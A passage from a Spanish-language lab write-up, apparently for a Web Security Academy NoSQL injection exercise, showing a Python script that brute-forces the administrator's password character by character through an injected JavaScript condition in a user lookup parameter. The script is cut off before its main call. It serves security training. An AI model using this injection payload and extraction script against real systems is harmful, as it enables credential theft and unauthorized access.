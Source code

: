 Efectuamos el ataque de `fuerza bruta`, primero debemos filtrar por `Payload 1` y después por la `expresión regular` que hemos creado

![](/assets/img/NoSQLI-Lab-3/image_29.png)

Otra alternativa es crearnos un `script` en `python` para `bruteforcear` la `contraseña`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, sys, string
from urllib.parse import quote

def def_handler(sig, frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

url = "https://0a2000950380a41281fb0c910055008d.web-security-academy.net/user/lookup?user=administrator"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(0, 8):
            for character in characters:
                payload = f"'%26%26this.password[{position}]=='{character}"

                cookies = {
                    'session': "Ax5WfTrCYTU0R4cuVSpGOyVe3NXxHEPZ",
                }

                p1.status(payload)

                r = requests.get(url + payload, cookies=cookies)

                if "administrator" in r.text:  
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
```